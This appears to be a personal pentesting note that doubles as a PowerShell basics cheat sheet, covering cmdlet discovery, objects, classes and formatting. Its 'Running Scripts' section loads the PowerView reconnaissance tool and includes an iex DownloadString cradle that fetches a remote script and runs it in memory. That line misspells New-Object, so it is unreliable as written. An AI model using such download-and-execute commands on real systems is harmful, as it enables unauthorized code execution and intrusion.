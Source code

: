 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

## Basics
* Search Commands
	```powershell
	#list all powershell cmdlets, functions and alias
	Get-Command
	
	#search ommands that starts with get
	Get-Command get*
	
	#search commands that ends with object
	Get-Command *object
	
	#search command for a verb
	Get-Command -Verb Get
	
	#search command for a noun
	Get-Command -Noun Object
	
	```
* Help
	```powershell
	#get help for the command New-Object
	Get-Help New-Object
	
	#List Examples for New-Object
	Get-Help New-Object -Example
	
	#get detailed help for New-Object 
	Get-Help New-Object -Detailed
	
	#get online help for the command
	Get-Help New-Object -Online
	```
* Alias
	```powershell
	# Print all alias
	Get-Alias
	
	#search alias
	Get-Alias search_term
	```
* Variables
	```powershell
	#Storging values/object/data in variable
	$myobj = Get-Childitem
	$myobj = Get-Location
	$myobj = "Doctor Dragon"
	```
## Filesystem
* Filesystem Navigation
	```powershell
	#list files and directories; ls
	Get-Childitem
	
	#change directory; cd
	Set-Location
	
	#print current working directory; pwd
	Get-Location
	
	#print content of the file; cat
	Get-Content filename
	```
## Classes and Objects
* Creating a Class in Powershell
	```powershell
	class human{
		[string]$name
		[int]$age
		[string]greet(){
			return "$($this.name) is $($this.age) years old"
		}
	}
	```
* Creating objects from a class
	```powershell
	# creating instance of a class using accelerator
	$drdragon = [human]::new() 
	$myname = [System.String]::new("Hello World")
	
	# creating a instance of a class using cmdlet
	$drdragon = New-Object -TypeName human
	$myname = New-Object System.String("Hello World")
	```
* List Properties and Methods of Objects
	```powershell
	# get properties and methods for the object
	$myobj | Get-Member
	Get-Childitem | Get-Member
	```
* Accessing Properties and methods of object
	```powershell
	# Acess property for the object
	$myobj.Length
	(New-Object System.String("drdragon")).Length
	
	# execute methods for the object
	$myobj.Remove(1)
	(New-Object System.String("drdragon")).Remove(1)
	```
* Selecting Objects
	```powershell
	# print specific property of an object
	Get-Childitem | Select-Object -Property Name,Parent
	$myobj | Select-Object -Property Name
	
	# print all property of an object
	$myobject | Select-Object -Property *

	# Alisas for Select-Ojbect
	Get-ChildItem | select Name, Parent
	```
* Filtering Objects
	```powershell
	# filter output if object's Name property is equal to "etc"
	Get-Childitem | Where-Object {$_.Name -eq "etc"}
	```
## Format Object
* Format-List
	```powershell
	# Prints Properties of an object in a key-value pair format
	Get-Childitem | Format-List
	
	# Prints secific property
	Get-Childitem | Format-List -Property Name,Parent
	```
* Format-Table
	```powershell
	# Default way of printing objects
	# Prints properties of object in a table format
	Get-Childitem | Format-Table
	
	# Prints secific property
	Get-Childitem | Format-Table -Property Name,Parent
	```
## Running Scripts
- Local Scripts
```powershell
# dot source
. .\Tools\Powerview.ps1

# Using cmdlet
Import-Module C:\Tools\Powerview.ps1

# Get commands imported by a module
Get-Command -Module <ModuleName>

```
- Remote Scripts
```powershell
iex (New-Ojbect Net.webClient).DownloadString('https://server.com/powerview.ps1')
```

# Language Mode
```powershell
# Check current powershell session language mode
$ExecutionContext.SessionState.LanguageMode
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
